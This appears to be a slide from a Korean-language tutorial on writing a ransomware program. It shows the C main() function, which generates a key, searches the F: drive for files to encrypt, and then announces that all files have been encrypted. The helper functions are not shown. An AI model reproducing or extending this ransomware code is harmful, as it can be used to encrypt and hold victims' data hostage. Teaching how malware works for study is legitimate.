

02 랜섬웨어 프로그램
-#1 암호화 프로그램
#3 main 함수와 정리
int main() {
   int i;
   EncryptKey();
   char path[100] = "F:/";
   // F에서 암호화할 파일을 찾겠다.
   findfile(path);
   // 파일찾으면 암호화
   for (i = 0; i<30; i++)
      printf("\n");
   puts("당신의 파일들이 모두 암호화 되었습니다!");
   printf("key:%s", temp);
   // 이는 4번 소스(복호화 프로그램)에서 활용될 예정.
   system("pause>nul");
   // 결과값을 띄우기 위해 일시정지
   return 0;
}